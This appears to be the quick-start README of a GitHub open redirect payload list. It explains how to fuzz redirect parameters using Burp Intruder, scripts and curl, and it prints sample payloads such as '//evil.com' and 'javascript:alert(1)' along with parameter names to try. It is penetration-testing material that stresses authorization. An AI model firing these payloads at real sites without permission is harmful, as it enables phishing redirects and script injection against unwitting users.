

# Quick Start Guide

Get started with the Open Redirect Payload List in under 5 minutes!

## 🚀 Quick Setup

### 1. Clone the Repository

```bash
git clone https://github.com/payload-box/open-redirect-payload-list.git
cd open-redirect-payload-list
```

### 2. Choose Your Testing Method

#### Option A: Burp Suite (Recommended for Beginners)

1. Open Burp Suite
2. Capture a request with a redirect parameter
3. Send to Intruder (Ctrl+I or Cmd+I)
4. Mark the parameter value: `?url=§value§`
5. Go to Payloads tab → Load → Select `payloads.txt`
6. Click "Start Attack"
7. Look for 3xx status codes in results

**Example Request:**
```
GET /redirect?url=§/§ HTTP/1.1
Host: target.com
```

#### Option B: Python Script (Automated Testing)

```bash
# Install dependencies
cd scripts
pip install -r requirements.txt

# Run test
python test_open_redirect.py -u "https://target.com/redirect"
```

#### Option C: Bash Script (Quick Check)

```bash
# Make executable
chmod +x scripts/quick_test.sh

# Run test
./scripts/quick_test.sh -u "https://target.com/redirect"
```

## 📝 Your First Test

### Step 1: Find a Target

Look for URLs with redirect parameters:
```
https://example.com/redirect?url=https://example.com
https://example.com/login?next=/dashboard
https://example.com/oauth?redirect_uri=...
```

### Step 2: Test Manually

Replace the parameter value with a test payload:
```
Before: https://example.com/redirect?url=https://example.com
After:  https://example.com/redirect?url=//evil.com
```

### Step 3: Check the Response

Look for:
- **Location Header**: Does it contain your payload?
- **Status Code**: Is it 301, 302, 303, 307, or 308?
- **Browser Behavior**: Does it redirect to your domain?

### Step 4: Verify

If redirected successfully:
```
✅ VULNERABLE!
Location: //evil.com
Status: 302 Found
```

## 🎯 Common Test Payloads

Start with these proven payloads:

```
//evil.com
https://evil.com
//google.com
//evil.com@target.com
javascript:alert(1)
```

## 🔍 Common Parameters

Test these parameter names:

```
url
redirect
next
return
returnTo
redirect_uri
continue
destination
redir
rurl
```

## 💡 Quick Tips

### ✅ Do's
- ✅ Get authorization before testing
- ✅ Start with basic payloads first
- ✅ Use your own domain (not evil.com)
- ✅ Document your findings
- ✅ Check for 3xx redirects

### ❌ Don'ts
- ❌ Test without permission
- ❌ Flood servers with requests
- ❌ Share findings publicly before disclosure
- ❌ Use only one payload type
- ❌ Ignore false positives

## 🛠️ Testing Workflow



## 📊 Understanding Results

### Vulnerable Response
```http
HTTP/1.1 302 Found
Location: //evil.com
```

### Not Vulnerable Response
```http
HTTP/1.1 302 Found
Location: /dashboard
```
or
```http
HTTP/1.1 400 Bad Request
Invalid redirect URL
```

## 🎓 Learning Path

### Beginner
1. Read the [README](README.md)
2. Test with Burp Suite
3. Try 10 basic payloads
4. Understand redirect mechanisms

### Intermediate
1. Use automated scripts
2. Test encoding variations
3. Learn bypass techniques
4. Test OAuth redirects

### Advanced
1. Develop custom payloads
2. Chain with other vulnerabilities
3. Test complex applications
4. Contribute to the project

## 🔧 Troubleshooting

### "No vulnerabilities found"
- Try different parameters
- Use encoding variations
- Check if domain validation exists
- Test protocol-relative URLs

### "Too many timeouts"
- Reduce thread count: `-t 3`
- Increase timeout: `--timeout 15`
- Check network connection

### "Script errors"
- Install dependencies: `pip install -r requirements.txt`
- Check Python version: `python --version` (need 3.6+)
- Make script executable: `chmod +x script.sh`

## 📚 Next Steps

1. **Read Documentation**: Check [README.md](README.md) for details
2. **Explore Payloads**: Browse [payloads.txt](payloads.txt)
3. **Try Examples**: Test with [vulnerable.php](examples/vulnerable.php)
4. **Contribute**: See [CONTRIBUTING.md](CONTRIBUTING.md)

## 🆘 Need Help?

- 📖 [Full Documentation](README.md)
- 🤝 [Contributing Guide](CONTRIBUTING.md)
- 🔒 [Security Policy](SECURITY.md)
- 💬 [GitHub Issues](https://github.com/payload-box/open-redirect-payload-list/issues)

## ⚡ Quick Reference Card

### Burp Suite
```
1. Intercept → Send to Intruder
2. Mark parameter: §value§
3. Load: payloads.txt
4. Start Attack
```

### Python Script
```bash
python test_open_redirect.py \
  -u "URL" \
  -p "param1,param2" \
  -o results.json
```

### Bash Script
```bash
./quick_test.sh \
  -u "URL" \
  -p "param" \
  -v
```

### Manual Testing
```bash
curl -i "https://target.com/redirect?url=//evil.com"
```

## 🎉 Success Checklist

- [ ] Repository cloned
- [ ] Tools installed
- [ ] First test completed
- [ ] Results documented
- [ ] Responsible disclosure followed

---

**Ready to start? Pick a method above and begin testing! 🚀**

*Remember: Always test ethically and with proper authorization.*